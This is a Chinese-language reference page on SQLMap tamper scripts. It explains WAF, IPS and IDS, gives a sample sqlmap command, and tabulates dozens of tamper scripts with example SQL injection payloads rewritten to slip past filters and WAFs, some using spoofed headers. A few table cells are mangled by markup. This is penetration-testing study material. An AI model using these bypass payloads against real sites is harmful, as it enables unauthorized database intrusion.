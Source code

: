 # tamper

1、tamper的作用：  
使用SQLMap提供的tamper脚本，可在一定程度上避开应用程序的敏感字符过滤、绕过WAF规则的阻挡，继而进行渗透攻击。

2、WAF是啥？

* WAF：Web应用程序防火墙，Web Application Firewall
* IPS：入侵防御系统， Intrusion Prevention System
* IDS：入侵检测系统，Intrusion Detection System

3、tamper用法

--tamper=TAMPER 利用给定的脚本进行篡改注入数据。其用法可举例说明：

sqlmap.py -u "[http://.../?uname=admin&pwd=pass123](http://.../?uname=admin&pwd=pass123)" --level=5 --risk=3 -p "uname" --tamper=xxx.py

表示对指定的url地址，以所设置的level等级、risk等级，并采用选定的tamper篡改脚本对参数“uname”进行检测

sqlmap中所有的tamper：

各种tamper的适用范围如下图所示：

![](../../.gitbook/assets/image%20%283%29.png)

各tamper的大意如下表格所示：

<table>
  <thead>
    <tr>
      <th style="text-align:left">tamper</th>
      <th style="text-align:left">&#x529F;&#x80FD;</th>
      <th style="text-align:left">&#x4E3E;&#x4F8B;</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">apostrophemask.py</td>
      <td style="text-align:left">&#x5BF9;&#x5F15;&#x53F7;&#x8FDB;&#x884C;utf-8&#x683C;&#x5F0F;&#x7F16;&#x7801;(%EF%BC%87)</td>
      <td
      style="text-align:left">1 AND &apos;1&apos;=&apos;1 ==&gt; 1 AND %EF%BC%871%EF%BC%87=%EF%BC%871</td>
    </tr>
    <tr>
      <td style="text-align:left">apostrophenullencode.py</td>
      <td style="text-align:left">&#x7528;&#x975E;&#x6CD5;&#x7684;&#x53CC;unicode&#x5B57;&#x7B26;(%00%27)&#x66FF;&#x6362;&#x5F15;&#x53F7;&#x5B57;&#x7B26;</td>
      <td
      style="text-align:left">1 AND &apos;1&apos;=&apos;1 ==&gt; 1 AND %00%271%00%27=%00%271</td>
    </tr>
    <tr>
      <td style="text-align:left">appendnullbyte.py</td>
      <td style="text-align:left">&#x5728;&#x6709;&#x6548;&#x8F7D;&#x8377;&#x7ED3;&#x675F;&#x4F4D;&#x7F6E;&#x52A0;&#x8F7D;&#x96F6;&#x5B57;&#x8282;&#x5B57;&#x7B26;&#x7F16;&#x7801;</td>
      <td
      style="text-align:left">1 AND 1=1 ==&gt; 1 AND 1=1%00</td>
    </tr>
    <tr>
      <td style="text-align:left">base64encode.py</td>
      <td style="text-align:left">&#x7528;base64&#x683C;&#x5F0F;&#x8FDB;&#x884C;&#x7F16;&#x7801;</td>
      <td
      style="text-align:left">1&apos; AND SLEEP(5)# ==&gt; MScgQU5EIFNMRUVQKDUpIw==</td>
    </tr>
    <tr>
      <td style="text-align:left">between.py</td>
      <td style="text-align:left">&#x7528;between&#x66FF;&#x6362;&#x5927;&#x4E8E;&#x53F7;&#xFF08;&gt;&#xFF09;</td>
      <td
      style="text-align:left">
        <p>1 AND A &gt; B --&#x200A; ==&gt; 1 AND A NOT BETWEEN 0 AND B&#x200A; --</p>
        <p>1 AND A = B --&#x200A; ==&gt; 1 AND A BETWEEN B AND B --</p>
        </td>
    </tr>
    <tr>
      <td style="text-align:left">bluecoat.py</td>
      <td style="text-align:left">&#x5BF9;SQL&#x8BED;&#x53E5;&#x66FF;&#x6362;&#x7A7A;&#x683C;&#x5B57;&#x7B26;&#x4E3A;(%09)&#xFF0C;&#x5E76;&#x66FF;&#x6362;&quot;=&quot;---&gt;&quot;LIKE&quot;</td>
      <td
      style="text-align:left">SELECT username FROM users WHERE id = 1 ==&gt; SELECT%09username FROM%09users
        WHERE%09id LIKE 1</td>
    </tr>
    <tr>
      <td style="text-align:left">apostrophemask.py</td>
      <td style="text-align:left">&#x7528;utf-8&#x683C;&#x5F0F;&#x7F16;&#x7801;&#x5F15;&#x53F7;(&#x5982;&#xFF1A;%EF%BC%87)</td>
      <td
      style="text-align:left">1 AND &apos;1&apos;=&apos;1 ==&gt; 1 AND %EF%BC%871%EF%BC%87=%EF%BC%871</td>
    </tr>
    <tr>
      <td style="text-align:left">charunicodeencode.py</td>
      <td style="text-align:left">&#x5BF9;&#x5B57;&#x7B26;&#x4E32;&#x8FDB;&#x884C;Unicode&#x683C;&#x5F0F;&#x8F6C;&#x4E49;&#x7F16;&#x7801;</td>
      <td
      style="text-align:left">SELECT FIELD%20FROM TABLE ==&gt; %u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045</td>
    </tr>
    <tr>
      <td style="text-align:left">charencode.py</td>
      <td style="text-align:left">&#x91C7;&#x7528;url&#x683C;&#x5F0F;&#x7F16;&#x7801;1&#x6B21;</td>
      <td style="text-align:left">SELECT FIELD FROM%20TABLE ==&gt; %53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45</td>
    </tr>
    <tr>
      <td style="text-align:left">chardoubleencode.py</td>
      <td style="text-align:left">&#x91C7;&#x7528;url&#x683C;&#x5F0F;&#x7F16;&#x7801;2&#x6B21;</td>
      <td style="text-align:left">SELECT FIELD FROM%20TABLE ==&gt; %2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545</td>
    </tr>
    <tr>
      <td style="text-align:left">commalessmid.py</td>
      <td style="text-align:left">&#x5C06;payload&#x4E2D;&#x7684;&#x9017;&#x53F7;&#x7528; from&#x548C;for&#x4EE3;&#x66FF;&#xFF0C;&#x7528;&#x4E8E;&#x8FC7;&#x6EE4;&#x4E86;&#x9017;&#x53F7;&#x5E76;&#x4E14;&#x662F;3&#x4E2A;&#x53C2;&#x6570;&#x7684;&#x60C5;&#x51B5;</td>
      <td
      style="text-align:left">MID(VERSION(), 1, 1) ==&gt; MID(VERSION() FROM 1 FOR 1)</td>
    </tr>
    <tr>
      <td style="text-align:left">concat2concatws.py</td>
      <td style="text-align:left">CONCAT() ==&gt; CONCAT_WS()&#xFF0C;&#x7528;&#x4E8E;&#x8FC7;&#x6EE4;&#x4E86;CONCAT()&#x51FD;&#x6570;&#x7684;&#x60C5;&#x51B5;</td>
      <td
      style="text-align:left">CONCAT(1,2) ==&gt; CONCAT_WS(MID(CHAR(0),0,0),1,2)</td>
    </tr>
    <tr>
      <td style="text-align:left">equaltolike.py</td>
      <td style="text-align:left">= ==&gt; LIKE&#xFF0C;&#x7528;&#x4E8E;&#x8FC7;&#x6EE4;&#x4E86;&#x7B49;&#x53F7;&quot;=&quot;&#x7684;&#x60C5;&#x51B5;</td>
      <td
      style="text-align:left">SELECT <em> FROM users WHERE id=1 ==&gt; SELECT </em> FROM users WHERE id
        LIKE 1</td>
    </tr>
    <tr>
      <td style="text-align:left">greatest.py</td>
      <td style="text-align:left"></td>
      <td style="text-align:left">1 AND A &gt; B ==&gt; 1 AND GREATEST(A, B+1)=A</td>
    </tr>
    <tr>
      <td style="text-align:left">halfversionedmorekeywords.py</td>
      <td style="text-align:left">&#x7A7A;&#x683C; ==&gt; /*!0 &#xFF08;&#x5728;&#x5173;&#x952E;&#x5B57;&#x524D;&#x6DFB;&#x52A0;&#x6CE8;&#x91CA;&#xFF09;</td>
      <td
      style="text-align:left">union ==&gt; /*!0union</td>
    </tr>
    <tr>
      <td style="text-align:left">ifnull2ifisnull.py</td>
      <td style="text-align:left">IFNULL(A, B) ==&gt; IF(ISNULL(A), B, A)</td>
      <td style="text-align:left">IFNULL(1, 2) ==&gt; IF(ISNULL(1),2,1)</td>
    </tr>
    <tr>
      <td style="text-align:left">informationschemacomment.py</td>
      <td style="text-align:left">
        <p>&#x5728; information_schema &#x540E;&#x9762;&#x52A0;&#x4E0A; /**/ &#xFF0C;&#x7528;&#x4E8E;&#x7ED5;&#x8FC7;&#x5BF9;
          information_schema &#x7684;&#x60C5;&#x51B5;</p>
        <p>retVal = re.sub(r&quot;(?i)(information_schema).&quot;, &quot;g&lt;1&gt;/**/.&quot;,
          payload)</p>
      </td>
      <td style="text-align:left">select table_name from information_schema.tables ==&gt; select table_name
        from information_schema/**/.tables</td>
    </tr>
    <tr>
      <td style="text-align:left">lowercase.py</td>
      <td style="text-align:left">&#x5C06; payload &#x91CC;&#x7684;&#x5927;&#x5199;&#x8F6C;&#x4E3A;&#x5C0F;&#x5199;</td>
      <td
      style="text-align:left">SELECT table_name FROM INFORMATION_SCHEMA.TABLES ==&gt; select table_name
        from information_schema.tables</td>
    </tr>
    <tr>
      <td style="text-align:left">modsecurityversioned.py</td>
      <td style="text-align:left">&#x7528;&#x6CE8;&#x91CA;&#x6765;&#x5305;&#x56F4;&#x5B8C;&#x6574;&#x7684;&#x67E5;&#x8BE2;&#x8BED;&#x53E5;&#xFF0C;&#x7528;&#x4E8E;&#x7ED5;&#x8FC7;
        ModSecurity &#x5F00;&#x6E90; waf</td>
      <td style="text-align:left">1 AND 2&gt;1-- ==&gt; 1 /<em>!30874AND 2&gt;1</em>/--</td>
    </tr>
    <tr>
      <td style="text-align:left">modsecurityzeroversioned.py</td>
      <td style="text-align:left">&#x7528;&#x6CE8;&#x91CA;&#x6765;&#x5305;&#x56F4;&#x5B8C;&#x6574;&#x7684;&#x67E5;&#x8BE2;&#x8BED;&#x53E5;&#xFF0C;&#x7528;&#x4E8E;&#x7ED5;&#x8FC7;
        waf &#xFF0C;&#x548C;&#x4E0A;&#x9762;&#x7C7B;&#x4F3C;</td>
      <td style="text-align:left">1 and 2&gt;1--+ ==&gt; 1 /!00000and 2&gt;1/--+</td>
    </tr>
    <tr>
      <td style="text-align:left">multiplespaces.py</td>
      <td style="text-align:left">&#x56F4;&#x7ED5;SQL&#x5173;&#x952E;&#x5B57;&#x6DFB;&#x52A0;&#x591A;&#x4E2A;&#x7A7A;&#x683C;</td>
      <td
      style="text-align:left">1 UNION SELECT foobar ==&gt; 1 UNION SELECT foobar</td>
    </tr>
    <tr>
      <td style="text-align:left">nonrecursivereplacement.py</td>
      <td style="text-align:left">&#x5173;&#x952E;&#x5B57;&#x53CC;&#x5199;&#xFF0C;&#x53EF;&#x7528;&#x4E8E;&#x5173;&#x952E;&#x5B57;&#x8FC7;&#x6EE4;</td>
      <td
      style="text-align:left">1 UNION SELECT 2-- ==&gt; 1 UNIONUNION SELESELECTCT 2--</td>
    </tr>
    <tr>
      <td style="text-align:left">overlongutf8.py</td>
      <td style="text-align:left">&#x8F6C;&#x6362;&#x7ED9;&#x5B9A;&#x7684;payload&#x5F53;&#x4E2D;&#x7684;&#x6240;&#x6709;&#x5B57;&#x7B26;</td>
      <td
      style="text-align:left">SELECT FIELD FROM TABLE WHERE 2&gt;1 ==&gt; SELECT%C0%AAFIELD%C0%AAFROM%C0%AATABLE%C0%AAWHERE%C0%AA2%C0%BE1</td>
    </tr>
    <tr>
      <td style="text-align:left">percentage.py</td>
      <td style="text-align:left">&#x7528;&#x767E;&#x5206;&#x53F7;&#x6765;&#x7ED5;&#x8FC7;&#x5173;&#x952E;&#x5B57;&#x8FC7;&#x6EE4;&#xFF0C;&#x5728;&#x5173;&#x952E;&#x5B57;&#x7684;&#x6BCF;&#x4E2A;&#x5B57;&#x6BCD;&#x524D;&#x9762;&#x90FD;&#x52A0;&#x4E00;&#x4E2A;(%)</td>
      <td
      style="text-align:left">SELECT FIELD FROM TABLE ==&gt; %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E</td>
    </tr>
    <tr>
      <td style="text-align:left">randomcase.py</td>
      <td style="text-align:left">&#x5C06; payload &#x968F;&#x673A;&#x5927;&#x5C0F;&#x5199;</td>
      <td style="text-align:left">INSERT ==&gt; InseRt</td>
    </tr>
    <tr>
      <td style="text-align:left">randomcomments.py</td>
      <td style="text-align:left">&#x5728; payload &#x7684;&#x5173;&#x952E;&#x5B57;&#x4E2D;&#x95F4;&#x968F;&#x673A;&#x63D2;&#x5165;&#x6CE8;&#x91CA;&#x7B26;
        /**/ &#xFF0C;&#x53EF;&#x7528;&#x4E8E;&#x7ED5;&#x8FC7;&#x5173;&#x952E;&#x5B57;&#x8FC7;&#x6EE4;</td>
      <td
      style="text-align:left">INSERT ==&gt; I / <b> / N / </b> / SERT</td>
    </tr>
    <tr>
      <td style="text-align:left">securesphere.py</td>
      <td style="text-align:left">&#x5728;payload&#x540E;&#x8FFD;&#x52A0;&#x7279;&#x6B8A;&#x6784;&#x9020;&#x7684;&#x5B57;&#x7B26;&#x4E32;</td>
      <td
      style="text-align:left">1 AND 1=1 ==&gt; 1 AND 1=1 and &apos;0having&apos;=&apos;0having&apos;</td>
    </tr>
    <tr>
      <td style="text-align:left">space2comment.py</td>
      <td style="text-align:left">&#x7528;&#x6CE8;&#x91CA;&#x7B26; // &#x4EE3;&#x66FF;&#x7A7A;&#x683C;&#xFF0C;&#x7528;&#x4E8E;&#x7A7A;&#x683C;&#x7684;&#x7ED5;&#x8FC7;</td>
      <td
      style="text-align:left">SELECT id FROM users ==&gt; SELECT//id//FROM//users</td>
    </tr>
    <tr>
      <td style="text-align:left">space2dash.py</td>
      <td style="text-align:left">&#x7528;[&#x6CE8;&#x91CA;&#x7B26;(--)+&#x4E00;&#x4E2A;&#x968F;&#x673A;&#x5B57;&#x7B26;&#x4E32;+&#x4E00;&#x4E2A;&#x6362;&#x884C;&#x7B26;]&#x66FF;&#x6362;&#x63A7;&#x5236;&#x7B26;</td>
      <td
      style="text-align:left">union select 1,2--+ ==&gt; union--HSHjsJh%0Aselect--HhjHSJ%0A1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">space2hash.py</td>
      <td style="text-align:left">&#x7528;[&#x6CE8;&#x91CA;&#x7B26;(#)+&#x4E00;&#x4E2A;&#x968F;&#x673A;&#x5B57;&#x7B26;&#x4E32;+&#x4E00;&#x4E2A;&#x6362;&#x884C;&#x7B26;]&#x66FF;&#x6362;&#x63A7;&#x5236;&#x7B26;</td>
      <td
      style="text-align:left">union select 1,2--+ ==&gt; union%23HSHjsJh%0Aselect%23HhjHSJ%0A1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">space2morehash.py</td>
      <td style="text-align:left">&#x7528;&#x591A;&#x4E2A;[&#x6CE8;&#x91CA;&#x7B26;(#)+&#x4E00;&#x4E2A;&#x968F;&#x673A;&#x5B57;&#x7B26;&#x4E32;+&#x4E00;&#x4E2A;&#x6362;&#x884C;&#x7B26;]&#x66FF;&#x6362;&#x63A7;&#x5236;&#x7B26;</td>
      <td
      style="text-align:left">union select 1,2--+ ==&gt; union %23 HSHjsJh %0A select %23 HhjHSJ %0A%23
        HJHJhj %0A 1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">space2mssqlblank.py</td>
      <td style="text-align:left">&#x7528;&#x968F;&#x673A;&#x7684;&#x7A7A;&#x767D;&#x7B26;&#x66FF;&#x6362;payload&#x4E2D;&#x7684;&#x7A7A;&#x683C;</td>
      <td
      style="text-align:left">SELECT id FROM users ==&gt; SELECT%0Eid%0DFROM%07users</td>
    </tr>
    <tr>
      <td style="text-align:left">space2mssqlhash.py</td>
      <td style="text-align:left">&#x7528;[&#x5B57;&#x7B26;# +&#x4E00;&#x4E2A;&#x6362;&#x884C;&#x7B26;]&#x66FF;&#x6362;payload&#x4E2D;&#x7684;&#x7A7A;&#x683C;</td>
      <td
      style="text-align:left">union select 1,2--+ ==&gt; union%23%0Aselect%23%0A1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">space2plus.py</td>
      <td style="text-align:left">&#x7528;&#x52A0;&#x53F7;(+)&#x66FF;&#x6362;&#x7A7A;&#x683C;</td>
      <td style="text-align:left">SELECT id FROM users ==&gt; SELECT+id+FROM+users</td>
    </tr>
    <tr>
      <td style="text-align:left">space2randomblank.py</td>
      <td style="text-align:left">&#x7528;&#x968F;&#x673A;&#x7684;&#x7A7A;&#x767D;&#x7B26;&#x66FF;&#x6362;payload&#x4E2D;&#x7684;&#x7A7A;&#x683C;</td>
      <td
      style="text-align:left">SELECT id FROM users ==&gt; SELECT%0Did%0DFROM%0Ausers</td>
    </tr>
    <tr>
      <td style="text-align:left">sp_password.py</td>
      <td style="text-align:left">&#x5728;payload&#x8BED;&#x53E5;&#x540E;&#x6DFB;&#x52A0; sp_password &#xFF0C;&#x7528;&#x4E8E;&#x8FF7;&#x60D1;&#x6570;&#x636E;&#x5E93;&#x65E5;&#x5FD7;&#xFF08;Space
        ==&gt; sp_password&#xFF09;</td>
      <td style="text-align:left">1 AND 9227=9227-- ==&gt; 1 AND 9227=9227 -- sp_password</td>
    </tr>
    <tr>
      <td style="text-align:left">symboliclogical.py</td>
      <td style="text-align:left">&#x7528; &amp;&amp; &#x66FF;&#x6362; and &#xFF0C;&#x7528; || &#x66FF;&#x6362;
        or &#xFF0C;&#x7528;&#x4E8E;&#x8FD9;&#x4E9B;&#x5173;&#x952E;&#x5B57;&#x88AB;&#x8FC7;&#x6EE4;&#x7684;&#x60C5;&#x51B5;</td>
      <td
      style="text-align:left">
        <p>1 and 1=1 ==&gt; 1 %26%26 1=1</p>
        <p>1 or 1=1 ==&gt; 1 %7c%7c 1=1</p>
        </td>
    </tr>
    <tr>
      <td style="text-align:left">unionalltounion.py</td>
      <td style="text-align:left">&#x7528; union select &#x66FF;&#x6362;union all select</td>
      <td style="text-align:left">union all select 1,2--+ ==&gt; union select 1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">unmagicquotes.py</td>
      <td style="text-align:left">&#x7528;&#x5BBD;&#x5B57;&#x7B26;&#x7ED5;&#x8FC7; GPC addslashes</td>
      <td
      style="text-align:left">1&apos; and 1=1 ==&gt; 1%df%27 and 1=1--</td>
    </tr>
    <tr>
      <td style="text-align:left">uppercase.py</td>
      <td style="text-align:left">&#x5C06;payload&#x4E2D;&#x7684;&#x5C0F;&#x5199;&#x5B57;&#x6BCD;&#x8F6C;&#x4E3A;&#x5927;&#x5199;&#x683C;&#x5F0F;</td>
      <td
      style="text-align:left">insert ==&gt; INSERT</td>
    </tr>
    <tr>
      <td style="text-align:left">varnish.py</td>
      <td style="text-align:left">&#x6DFB;&#x52A0;&#x4E00;&#x4E2A;HTTP&#x5934;&#x201C; X-originating-IP
        &#x201D;&#x6765;&#x7ED5;&#x8FC7;WAF</td>
      <td style="text-align:left">headers = kwargs.get(&quot;headers&quot;, {})headers[&quot;X-originating-IP&quot;]
        = &quot;127.0.0.1&quot;return payload</td>
    </tr>
    <tr>
      <td style="text-align:left">versionedkeywords.py</td>
      <td style="text-align:left">&#x5BF9;&#x975E;&#x51FD;&#x6570;&#x7684;&#x5173;&#x952E;&#x5B57;&#x8FDB;&#x884C;&#x6CE8;&#x91CA;</td>
      <td
      style="text-align:left">1 union select user() ==&gt; 1/!UNION//!SELECT/user()</td>
    </tr>
    <tr>
      <td style="text-align:left">versionedmorekeywords.py</td>
      <td style="text-align:left">&#x5BF9;&#x6BCF;&#x4E2A;&#x5173;&#x952E;&#x5B57;&#x8FDB;&#x884C;&#x6CE8;&#x91CA;&#x5904;&#x7406;</td>
      <td
      style="text-align:left">1 union select user() ==&gt; 1/!UNION//!SELECT/user()</td>
    </tr>
    <tr>
      <td style="text-align:left">xforwardedfor.py</td>
      <td style="text-align:left">&#x6DFB;&#x52A0;&#x4E00;&#x4E2A;&#x4F2A;&#x9020;&#x7684;HTTP&#x5934;&#x201C;
        X-Forwarded-For &#x201D;&#x6765;&#x7ED5;&#x8FC7;WAF</td>
      <td style="text-align:left">headers = kwargs.get(&quot;headers&quot;, {})headers[&quot;X-Forwarded-For&quot;]
        = randomIP()return payload</td>
    </tr>
  </tbody>
</table>

